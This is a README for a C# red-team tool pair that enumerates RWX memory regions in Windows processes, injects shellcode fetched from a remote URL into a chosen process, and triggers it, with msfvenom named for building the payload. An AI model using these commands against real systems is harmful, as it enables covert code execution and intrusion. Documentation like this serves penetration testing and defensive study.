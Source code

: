 # tRWXi

trovent RWX injector

### Description
We are all familiar with the concept of process injection through the RWX memory region.\
The **tRWXi.exe** tool is a simple implementation of this in C#.

For a more stealthy mode, see the implementation of the **tRWXix.exe** tool described below. 

### Usage
```
.\tRWXi.exe /enumerate                                          ---> conduct an enumeration
.\tRWXi.exe /inject  /pid=<pid> /url=<remote shell code>        ---> inject a shellcode into the RWX region of a particular process
.\tRWXi.exe /trigger /pid=<pid> /address=<hex address>          ---> trigger an execution of a shellcode in particular memory address (see description of tRWXix.exe)
```

### Example
- Enumerate the RWX memory regions in all processes that the current user can access:
![RWX enumeration](./_readme.d/01-injector-3.png)
- Inject a shellcode into the RWX region of a particular process and trigger it:
![shellcode_injection](./_readme.d/01-injector-4.png)
- Generate a shellcode in a numeric format (msfvenom -f num):
![shellcode_format](./_readme.d/01-injector-2.png)

# tRWXix

An utility for triggering a shellcode in a RWX region

### Description
Imagine, you have found a way to overwrite an ExecuteReadWrite memory region of a particular process, and now all you need to do is trigger it. This utility does exactly this. 

Please refer to our blog article <link follows> where we describe how to modify RWX regions if the first part is still confusing for you.  

### Usage
```
.\tRWXix.exe /trigger /pid=<pid> /address=<hex address>
```

### Example
- Trigger an execution of a shellcode from the particular RWX memory region:
![shellcode_trigger](./_readme.d/02-trigger-1.png)
